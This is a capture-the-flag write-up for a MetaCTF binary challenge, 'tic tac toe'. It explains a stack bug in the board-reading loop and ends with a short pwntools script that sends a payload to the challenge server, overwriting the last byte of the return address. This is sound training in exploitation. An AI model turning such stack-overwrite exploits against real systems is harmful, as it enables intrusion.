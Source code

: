 ```yaml
---
title: "[pwn] tic tac toe"
categories:
  - CTF/pwn
tags:
  - overwiteLastByteRet
---
```


[tic tac toe [metaCTF]](https://github.com/v13td0x/Q4_21/raw/main/meta/pwn/Tic%20tac%20toe/tic_tac_toe_Release.tar.gz)

```apl
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

```c
int read_board(){
	char board[3][3]; // $rbp-0xa
	char counter = 0; // $rbp-0x1

	//read the board in
	while (counter < 9){
		while(1){
			read(0, (char*)board+counter++, 1);

			if (*((char *)board+counter-1) == '\n')
			{
				counter--;
				continue;
			}
			if (*((char*)board + counter-1) == 'o' 
			|| *((char*)board + counter-1) == 'O' 
			||*((char*)board + counter-1) == '0' 
			|| *((char*)board + counter-1) == 'x' 
			|| *((char*)board + counter-1) == 'X'){
				break;
			}
			puts("Bad Character, try again");
		}
	}
// if last byte was an x, X, o, O, or 0 program will check counter<9,
// otherwise continue read from input and write in stack at board[counter]
```

```bash
02:0010│ rsp     0x7fff2059f840 ◂— 0x767655b24517f0a0
03:0018│         0x7fff2059f848 ◂— 0x1376767676767676
04:0020│ rbp     0x7fff2059f850 —▸ 0x7fff2059f860 ◂— 0x0
05:0028│ rax rsi 0x7fff2059f858 —▸ 0x55b24517f645 (main+60) # ret
pwndbg> x/x $rbp-0x1
0x7fff2059f84f: 0x13 # counter = 13
pwndbg> x/x $rbp+8
0x7fff3d59caf8: 0x45 #last byte of ret addr
```

our strategy is changing last byte of ret addr `0x45 → 0x4f`, we will overwrite counter var = 0x12++. Because `board[counter=0x13] = last byte of ret addr` (0xa bytes of board + 8 byte rbp + 1 last byte ret). 

> Remember: we need 9 byte `not` in {x, X, 0, o, O} to not check counter and '\n' to increase counter var. Due to overwrite it.
> 

```python
# xpl.py
from pwn import *

p = remote("host.cg21.metaproblems.com", 3120)
p.send(b'v'*9 + b'\x12\x4f')
p.stream()
```
